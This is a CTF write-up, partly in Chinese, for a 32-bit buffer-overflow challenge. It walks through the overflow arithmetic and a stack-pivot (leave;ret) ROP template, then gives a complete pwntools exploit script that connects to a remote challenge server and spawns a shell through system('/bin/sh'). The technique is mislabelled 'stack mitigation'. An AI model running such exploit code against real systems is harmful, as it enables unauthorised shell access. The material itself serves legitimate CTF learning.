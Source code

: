 # 1.0 Challenge
1. why after system show sh: 1: \x0c-#: not found?
2. not enough buffer, how ?
3. how to generate stack mitigation payload
# 2.0 Analysis

```
ssize_t vuln()
{
  _BYTE buf[76]; // [esp+8h] [ebp-50h] BYREF

  puts("You are now in vuln! Please enter extra data:");
  printf("You will input this: %p\n", buf);
  puts("plz input your msg:\n");
  return read(0, buf, 0x58u);
}

needed address
bin_sh = 0x0804A038
system = 0x08048430
leave_ret = 0x08048555
```


# 3.0 Solution

## 3.1 why after system show sh: 1: \x0c-#: not found?
This error means you're **not actually calling `/bin/sh`**, but instead your exploit payload is being misinterpreted as a command like "`\x0c-#`", which makes no sense to the shell.

You **don’t have enough overflow space** to place all of this 
maybe you only control 8 or 12 bytes past the saved return address.

其实 最基本的payload 应该是
```
offset + 4
system address
ret address (cincai)
/bin/sh address
```
但是 这边 read 是0x58 = 88, buffer max是 76
所以能overlfow 的是 88 - 76 = 12 bytes 

0 .. 75 buffer
76 .. 79 ebp
80 .. 83 save return address
84 .. 87 next stack

`[payload padding] + [fake EBP or filler (4 bytes)] + [system address (4 bytes)] + [return address after system (4 bytes)] + [address of "/bin/sh" string (4 bytes)]`
这边就需要 16 了所以 不够

## 3.2 not enough buffer -> Stack Mitigation

只要有 leave ret, bss address 就能做 SM 

## 3.3 HOW to build Stack mitigation payload?
用read 吧 system plt, "/bin/sh" 放进 bss
把 ebp 改成 leave ret 让栈指针跳转到我们写进去的那一块 BSS 区域
可以直接把他当成template
```
payload = p32(0)                        # 伪造的 old ebp
payload += p32(system_plt_addr)        # ret 到 system()
payload += p32(0)                      # 伪造的返回地址 (cincai)
payload += p32(leak_bss+0x10)                 # 参数："/bin/sh" 的地址
payload += b'/bin/sh\x00'              # 真正写入 "/bin/sh" 字符串
payload = payload.ljust(offset, b'\x00')  # 填满 overflow 前的部分
payload += p32(leak_bss)               # 栈迁移：将 esp 指向你构造的 payload（伪造栈帧）区域
payload += p32(leave_ret)              # 执行栈迁移：leave = mov esp, ebp; pop ebp;  ret
```

# 4.0 FLAG 
done no flag

# 5.0 FINAL SCRIPT 
```python
# -*- coding: utf-8 -*-
# -*- coding: utf-8 -*-
from pwn import*
context.log_level='debug'
context.arch='i386'
context.os = "linux"

pc = "./short"

#libc  = ELF('./libc.so.6', checksec=False)
#ld = ELF("ld-2.39.so")
exe = context.binary = ELF(pc)



scripts = """
b *vuln+87
"""
 
if __name__ == '__main__':
    local = sys.argv[1]
    if local == 'l':
        r= process(pc)
        elf = ELF(pc)
    else:
        r=remote("34.45.81.67",16006)
        elf = ELF(pc)
 
s = lambda *a, **k: r.send(*a, **k)
sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
rl = lambda: r.recvline()
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bhex = lambda b: int(b.decode(), 16)
ru7f = lambda: r.recvuntil(b'\x7f')
dbg = lambda: gdb.attach(r)
dbgstart = lambda script=scripts: gdb.attach(r, gdbscript=script)

# dbgstart()
offset = 0x4c+4
bin_sh = 0x0804A038
system = 0x08048430
system_plt_addr = elf.plt['system']

leave_ret = 0x08048555

sla(":","admin")
sla(":","admin123")
ru("this: ")
leak_bss = int(rc(10).decode(),16)
print("leak",hex(leak_bss))

# normal
# payload = b'A'*0x54     # Overflow buffer
# payload += p32(system)  # Return to system
# payload += p32(0xdeadbeef)  # Fake return address after system
# payload += p32(bin_sh) # Argument to system ("/bin/sh")

payload = p32(0) + p32(system_plt_addr) + p32(0) 
payload += p32(leak_bss+0x10) + b'/bin/sh\x00' # /bin/sh is 8 bytes
payload = payload.ljust(offset, b'a')
payload += p32(leak_bss) + p32(leave_ret)
print('length of payload:', hex(len(payload)), payload)         

sla("msg:",payload)

ti()

# https://github.com/CTF-Archives/2024-wdb-qinglong
```

# 6.0 REFERENCE
https://github.com/fa1c4/CTF/blob/27e579608c5d9e126648f699970e2fcd83973757/2024/WDB2024/pwn2/wp.md

PWN ciscn_2019_es_2 32 stack mitigation buffer too small